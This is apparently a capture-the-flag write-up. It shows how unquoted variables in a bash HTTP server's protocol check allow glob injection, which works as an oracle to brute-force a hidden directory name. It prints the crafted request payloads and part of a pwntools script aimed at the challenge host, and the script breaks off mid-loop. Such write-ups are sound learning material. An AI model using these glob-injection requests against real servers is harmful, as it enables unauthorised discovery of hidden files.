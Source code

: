 ```bash
if  [  $protocol  !=  'HTTP/1.0'  ]  &&  [  $protocol  !=  'HTTP/1.1'  ];  then abort 'Invalid protocol'  fi
```

This has some unquoted variables and may allow us to glob the `$protocol` value. I tried a basic test:

```
GET /whatever /app/static/assets/f*
```

Globbing this should only produce a single result and we got `Invalid Protocol` so I next tried:

```
GET /whatever /app/static/assets/*
```

Which should produce > 1 results. The output from the server this time was a `cat` error. Testing a glob which should produce 0 results gave `Invalid Protocol` too. This meant we had an oracle whereby we could detect whether there is > 1 files in a directory.

We want to leak the hidden directory containing the flag (presumably). I decided using a regex approach would be best. We have to create a regex which exactly matches ONE of the known folders and then we can brute force values to find the hidden one (so that glob will return 2 files and give us that cat error)!

I'll save you the manual nightmare which followed but you can see the workings below:

```
/assets/f200d055a267ae56160198e0fcb47e5f/try_harder.tx /app/static/assets/[^fabcde1345678][^123457890abc][^abe][^abcdef124][^abcde1][^abcdef0134][^abdef012347][^012345678abcde][^103456789abcd][^abcdef013][^abcde01234567][^a-f0123456][^a-f0234][^b-f012345678][^ab][^678][^a][^a-f0][^134567890abcdef][^b-f01][^abdef1234567890][^a][^abcdef12340678][^b-f1][^01234568][^a-f01234][^abdef0123][^1234567890abcef][^a][^ac][^a-f02345][^a-f02345]*
```

And for those of you who are perfectionists, gg0h wrote an automated solution which was pretty cool:

```python
from pwn import *
known1 = 'f200d055a267ae56160198e0fcb47e5f'
known2 = '26c3f25922f71af3372ac65a75cd3b11'

total_payload = ''
directory = ''

def attempt(payload):
    conn = remote('chal-kalmarc.tf',8080)
    req = f"""
HEAD /assets/f200d055a267ae56160198e0fcb47e5f/try_harder.tx /app/static/assets/{total_payload}{payload}*
Host: chal-kalmarc.tf:8080
    """.lstrip() + "\r\n" * 2
    conn.send(req) 
    resp = conn.recvall()
    return resp

for i in range(len(known1)):
    flag = False
    charset = string.hexdigits[:-6]
    charset = charset.replace(known2[i], '')

    # case where known1[i] == target[i]
    payload = f"[{known1[i]}]"
    resp = attempt(payload)
    if b'No such file or directory' in resp:
        total_payload += payload
        directory += known1[i]
```